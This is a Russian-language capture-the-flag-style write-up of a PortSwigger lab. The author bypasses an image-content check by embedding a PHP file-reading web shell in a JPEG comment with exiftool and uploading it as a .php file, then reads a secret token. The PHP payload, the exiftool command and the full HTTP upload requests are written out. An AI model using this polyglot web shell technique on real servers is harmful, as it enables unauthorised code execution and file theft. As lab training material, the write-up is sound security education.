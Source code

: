 ```yaml
---
title: "Remote code execution via polyglot web shell upload"
date: 2025-08-14
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/flawed-validation-of-the-file-s-contents/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload"
classes: wide
---
```


В данной лабе содержится уязвимость **в загрузке файлов**. Для прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net/
```

## Solution

Зайду в личный кабинет с помощью кред из условия и получу `POST`-запрос для загрузки картники.

```http
POST /my-account/avatar HTTP/2
Host: 0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Cookie: session=8AKifUIC65bNLJC89itvg6GyeRgOxIwM
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net/my-account?id=wiener
Content-Type: multipart/form-data; boundary=----geckoformboundary36fb349a4e4b34c8b48dd4ed32a33058
Content-Length: 107749
Origin: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary36fb349a4e4b34c8b48dd4ed32a33058
Content-Disposition: form-data; name="avatar"; filename="dog.jpg"
Content-Type: image/jpeg
```

С загрузкой `.jpg` проблем не было, пробую загрузить `.php` файл со следующим содержимым:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Ожидаемо, загрузить файл не получилось. Мне выдало следующую ошибку:

```
Error: file is not a valid image Sorry, there was an error uploading your file.
```

В названии лабы есть спойлер, а именно слово `polyglot`.

Полиглотами называют такие файлы, которые меняют свой тип в зависимости от контекста использования. На сервере идет проверка на то, что загружаемый файл является валидной картинкой.

На сайте `Burp Suite Academy` натолкнулся на тулзу [exiftool](https://exiftool.org/). С ее помощью можно создавать файлы-полиглоты. Для создания полиглота `jpg` + `php` я использовал команду:

```bash
exiftool -Comment="START <?php echo file_get_contents('/home/carlos/secret'); ?> END" ~/Documents/dog.jpg -o polyglot.php
```

Сгенерированный файл я загрузил на сайт.

```http
POST /my-account/avatar HTTP/2
Host: 0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Cookie: session=8AKifUIC65bNLJC89itvg6GyeRgOxIwM
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary3e99b35f9ca8c9ea119de399560746ff
Content-Length: 107821
Origin: https://0abd005c033ff4bd81c1256700e000f1.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary3e99b35f9ca8c9ea119de399560746ff
Content-Disposition: form-data; name="avatar"; filename="polyglot.php"
Content-Type: text/php

ÿØÿà JFIF      ÿþ CSTART <?php echo file_get_contents('/home/carlos/secret'); ?> ENDÿÛ C 		
...
```

Открою страницу с аватаркой.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_polyglot_web_shell_upload/1.png){: height="200" .align-center}

А вот и нужный мне токен — `ls5MhLfcM6OtELdaGSMSjRCZ55KciAjF`. Сдам его для прохождения лабы.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Remote_code_execution_via_polyglot_web_shell_upload/2.png){: height="200" .align-center}

Успех)